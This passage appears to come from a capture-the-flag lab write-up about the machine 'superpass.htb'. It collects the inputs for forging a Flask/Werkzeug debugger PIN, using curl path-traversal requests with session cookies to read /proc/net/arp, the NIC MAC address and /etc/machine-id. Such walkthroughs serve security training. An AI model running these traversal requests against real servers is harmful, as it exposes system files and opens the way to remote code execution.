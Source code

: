 `/app/venv/lib/python3.10/site-packages/flask/app.py` and `wsgi_app`

```python
...
probably_public_bits = [
    'www-data',  # username
    'flask.app',  # modname
    'wsgi_app',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/app/venv/lib/python3.10/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]
...
```

We still need info for the `private_bits` part of the code.

```python
...
private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]
...
```

Lets simplify our `curl` to be able to reuse it. We need to get `/proc/net/arp` to see the nic devices on the machine, and `/sys/class/net/[device]/address` of the nic to be able to get the MAC Address.

```bash
$ cookie="session=.eJwlTsuKwzAM_BWjc1lsx5KjfEXvSymWIzeB9EGcnkr_fQU7l2EeDPOBa9tKX7TD9PsBdxjBXXsvN4UTnDctXd32vLn14Y6nK7Va6I5l7e5lnR-4fC8nG9m1LzAd-1tNrTNMIKWSDqnGlBoHL4hlDMJVm2LlKj60gRPnEcViHEk9a_YzKmaDCHKMKi0POYxEIsTszebISRKlRIg-I7FQ9LlFLpKCD6RkuuFs96_vrvv_G4bvH7XuRMs.Znjerw.c8mYkBgRvnDmdDZ7z1SUhR3GYRw; remember_token=9|fd28b85a6634750a15973d2744a9332c5b90df81d7e0ec07e607f6ab830331b3deb216d40783f8786553968235f9bd88e68864135e7e6743ba4552f0ee8cc593"

$ curl -s --path-as-is -b $cookie http://superpass.htb/download?fn=../proc/net/arp 
IP address       HW type     Flags       HW address            Mask     Device
10.10.10.2       0x1         0x2         00:50:56:b9:ad:f7     *        eth0

$ curl -s --path-as-is -b $cookie http://superpass.htb/download?fn=../sys/class/net/eth0/address
00:50:56:b0:13:52
```

Lets convert the MAC address using python

```bash
$ python3
Python 3.11.8 (main, Feb  7 2024, 21:52:08) [GCC 13.2.0] on linux
...
>>> int("00:50:56:b0:13:52".replace(':',''), 16)
345051763538
```

The next item is a combination of a couple files. First, I need `/etc/machine-id`

```bash
$ curl -s --path-as-is -b $cookie http://superpass.htb/download?fn=../etc/machine-id
ed5b159560f54721827644bc9b220d00
```

